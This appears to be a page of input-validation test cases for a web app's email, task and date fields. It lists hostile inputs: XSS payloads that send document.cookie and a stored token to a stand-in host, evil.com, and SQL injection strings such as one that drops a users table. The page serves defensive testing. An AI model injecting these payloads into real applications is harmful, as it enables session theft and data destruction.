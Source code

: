 ### Malicious Email Addresses

```javascript
// XSS in email
"test+<script>alert('XSS')</script>@example.com";
"<script>alert('XSS')</script>@example.com";

// SQL injection in email
"test'; DROP TABLE users; --@example.com";
"admin'--@example.com";

// Invalid formats
"not-an-email";
"@example.com";
"test@";
"test..test@example.com";
```

## 📝 **Task Input Test Cases**

### Malicious Task Descriptions

```javascript
// XSS attempts
"<script>fetch('http://evil.com/steal-data?data='+document.cookie)</script>";
"<img src=x onerror=fetch('http://evil.com/log?'+btoa(localStorage.getItem('token')))>";

// HTML injection
"<h1>Fake Header</h1><p>This shouldn't render as HTML</p>";
"<style>body{display:none}</style>";

// Very long input (should be truncated)
"A".repeat(1000);

// Special characters
("Task with 'quotes' and \"double quotes\" and `backticks`");
("Task; with; semicolons; and; SQL; injection; attempts;");
```

### Invalid Dates and Times

```javascript
// Invalid dates
"2020-01-01"; // Past date (should be rejected)
"invalid-date";
"2025-13-45"; // Invalid month/day

// Invalid times
"25:00"; // Invalid hour
"12:60"; // Invalid minute
"not-a-time";
"12:30:45:99"; // Too many components
```
